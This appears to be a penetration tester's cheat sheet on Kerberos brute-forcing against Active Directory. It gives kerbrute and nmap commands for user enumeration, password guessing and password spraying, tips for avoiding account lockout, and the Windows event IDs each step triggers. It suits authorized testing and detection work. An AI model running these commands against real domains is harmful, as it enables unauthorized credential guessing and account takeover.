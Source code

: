 # Brute-forcing
Be careful for locking out accounts (error code 4625 & 4771). For kerbrute use `--save` to abort when one account gets lockout.

Because The python kerbrute also saves the valid TGT for the valid user:password combination.

Can find user accounts with 'UF_DONT_REQUIRE_PREAUTH' set. Can be used for a AS-REP Roasting attack.

## User enumeration
4768 - Kerberos authentication ticket (TGT) was requested
Won't lockout user account. 

Invalid user: PRINCIPAL_UNKNOWN
Valid user w pre-auth: PREAUTH_REQUIRED
Valid user wo pre-auth: an AS-REP

`kerbrute userenum --dc <IP> -d <DOMAIN> <USERLIST>`
`sudo nmap -sU -p 88 --script krb5-enum-users --script-args krb5-enum-users.realm='<DOMAIN>',userdb=<USERLIST> <IP>`

## Password enumeration
4768 - A Kerberos authentication ticket (TGT) was requested
4771 - Kerberos pre-authentication failed

User w pre-auth, valid PW: RESPONSE_TOO_BIG
User w pre-auth, invalid PW: PREAUTH_FAILED
User wo pre-auth, valid PW: a valid AS-REP
User wo pre-auth, invalid PW: an invalid AS-REP

`kerbrute bruteuser --dc <IP> -d <DOMAIN> <PASSLIST> <USER>`

## Password Spraying
4768 - A Kerberos authentication ticket (TGT) was requested
4771 - Kerberos pre-authentication failed

`kerbrute passwordspray --dc <IP> -d <DOMAIN> -v <USERLIST> <PASS>`

## Check user:password combo
 4768 - A Kerberos authentication ticket (TGT) was requested
 4771 - Kerberos pre-authentication failed
 
`kerbrute bruteforce --dc <IP> -d <DOMAIN> -v <USERPASSLIST>`
